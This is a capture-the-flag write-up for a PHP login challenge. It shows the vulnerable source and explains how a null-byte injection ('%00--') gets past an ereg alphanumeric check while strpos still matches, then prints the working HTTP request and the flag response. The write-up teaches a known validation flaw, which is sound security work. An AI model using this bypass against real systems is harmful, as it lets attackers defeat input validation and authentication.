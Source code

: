 ### Solved by NullMode

We were able to get the the source code for this challenge by requesting ```index.txt``` on the web server. Turned out to have some funky checks being made:

```
<html>
<head>
    <title>level6</title>
   <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        echo '<p class="alert">You password must be =
alphanumeric</p>';
    else if (strpos ($_GET['password'], '--') !== FALSE)
        die('Flag: ' . $flag);
    else
        echo '<p class="alert">Invalid password</p>';
}
?>

<section class="login">
       <div class="title">
               <a href="./index.txt">Level 6</a>
       </div>

       <form method="get">
               <input type="text" required name="password" = placeholder="Password" /><br/>
               <input type="submit"/>
       </form>
</section>
</body>
</html>
```

From the above we can determine that the password parameter can only be a set of alphanumeric characters. However, the password must also contain `--` somewhere.

I tried breaking out of the regular expression with new lines, but that didn't work. I then tried inserting a nullbyte followed by the `--` string. Success!

The regular expression treated the null byte as the end of the string, however the strips function looked through the entire variable for the `--`.

### Payload

```
GET /?password=lolol%00-- HTTP/1.1
Host: 52.10.107.64:8006
Connection: keep-alive
```

### Response - With flag \o/

```
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 28 Feb 2015 12:48:41 GMT
Content-Type: text/html
Connection: keep-alive
Content-Length: 162

<html>
<head>
    <title>level6</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

Flag: OK_Maybe_using_rexpexp_wasnt_a_clever_move
```

